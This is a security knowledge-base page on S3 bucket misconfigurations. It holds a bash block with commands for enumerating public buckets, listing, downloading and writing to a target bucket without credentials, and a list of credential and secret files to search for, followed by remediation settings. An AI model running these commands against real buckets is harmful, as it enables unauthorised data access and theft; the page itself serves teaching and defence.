

repository: hieutran2811/synthesize_knowledge · page: security/cloud/cloud_misconfig/index.html · generator: mkdocs

---
title: "Cloud Misconfigurations Deep Dive"
topic: security
level: mixed
review_status: needs_review
content_updated: null
last_verified: null
version_scope: "unspecified"
source_count: 28
---
# Cloud Misconfigurations Deep Dive

> Thuật ngữ: [Glossary](../glossary.md).

## 1. S3 Bucket Misconfigurations

### 1.1 Public Access Misconfiguration

```bash
# === Discovery ===

# Enumerate S3 buckets via CT/DNS brute force
# Common patterns: company-name, company-backup, company-assets, company-data
aws s3 ls s3://company-backup --no-sign-request 2>/dev/null && echo "PUBLIC!"

# Mass enumeration tools
python3 -m pip install bucket-finder
bucket_finder wordlist.txt --region us-east-1

# Using s3scanner
s3scanner scan --buckets-file wordlist.txt

# Grayhat Warfare: buckets.grayhatwarfare.com (indexed public buckets)
# Grep for sensitive files
curl -s "https://buckets.grayhatwarfare.com/api/v1/files?keywords=.env&access_key=<key>" | jq .

# === Exploitation ===

# List publicly accessible bucket
aws s3 ls s3://target-bucket --no-sign-request
aws s3 ls s3://target-bucket/ --no-sign-request --recursive

# Download files
aws s3 cp s3://target-bucket/config.env . --no-sign-request
aws s3 sync s3://target-bucket . --no-sign-request

# Check if write is possible (data exfiltration via own bucket, or deface)
echo "test" | aws s3 cp - s3://target-bucket/test.txt --no-sign-request

# Check ACL
aws s3api get-bucket-acl --bucket target-bucket --no-sign-request
# Response with "AllUsers" URI = public read/write

# Check public access block settings
aws s3api get-public-access-block --bucket target-bucket

# === Common files to look for ===
# .env, .env.production, config.yml, credentials.json
# database-backup.sql, dump.sql, *.rds
# id_rsa, *.pem, *.pfx, *.p12
# htpasswd, shadow, passwd
# config.json (cloud credentials)
# terraform.tfstate (contains ALL resource details, sometimes passwords)
# backup.tar.gz, *.zip

# === Fix ===
# Enable Block Public Access at account level (recommended)
aws s3api put-public-access-block \
    --bucket my-bucket \
    --public-access-block-configuration \
    BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true

# Or via Terraform
resource "aws_s3_bucket_public_access_block" "example" {
  bucket = aws_s3_bucket.example.id
  block_public_acls       = true
  block_public_policy     = true
  ignore_public_acls      = true
  restrict_public_buckets = true
}
```
